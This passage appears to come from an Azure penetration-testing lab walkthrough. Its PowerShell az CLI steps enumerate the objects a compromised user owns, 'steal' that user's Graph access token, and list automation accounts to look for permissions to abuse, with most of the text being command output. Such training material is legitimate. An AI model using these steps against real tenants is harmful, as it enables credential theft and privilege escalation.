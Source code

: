 ```powershell
]
```

- Find objects owned by `MarkDWalden@defcorphq.onmicrosoft.com`.
```powershell
PS C:\Windows\system32> az ad signed-in-user list-owned-objects

<snip>

{ "deletionTimestamp": null, "description": "Members can create and run runbooks", "dirSyncEnabled": null, "displayName": "Automation Admins", "lastDirSyncTime": null, "mail": null, "mailEnabled": false, "mailNickname": "fe6a8b21-4", "objectId": "e6870783-1378-4078-b242-84c08c6dc0d7", "objectType": "Group" "userStateChangedOn": null,

<snip>
```

- Steal the MS Graph token of `MarkDWalden@defcorphq.onmicrosoft.com`.
```powershell
PS C:\Windows\system32> az account get-access-token --resource-type aad-graph
{
  "accessToken": "eyJ0eXA...I_9ksOiH4Q",
  "expiresOn": "2024-03-05 06:36:36.175462",
  "subscription": "b413826f-108d-4049-8c11-d52d5d388768",
  "tenant": "2d50cb29-5f7b-48a4-87ce-fe75a941adb6",
  "tokenType": "Bearer"
}
```

- We can now list automation accounts and see if we have any interesting permissions over them.
```powershell
PS C:\Windows\system32> az automation account list
[
  {
    "creationTime": "2021-03-17T14:40:05.340000+00:00",
    "description": null,
    "etag": null,
    "id": "/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Automation/automationAccounts/HybridAutomation",
    "lastModifiedBy": null,
    "lastModifiedTime": "2022-10-30T14:26:31.586666+00:00",
    "location": "switzerlandnorth",
    "name": "HybridAutomation",
    "resourceGroup": "Engineering",
    "sku": null,
    "state": null,
    "tags": {},
    "type": "Microsoft.Automation/AutomationAccounts"
  }
]

<snip>
```
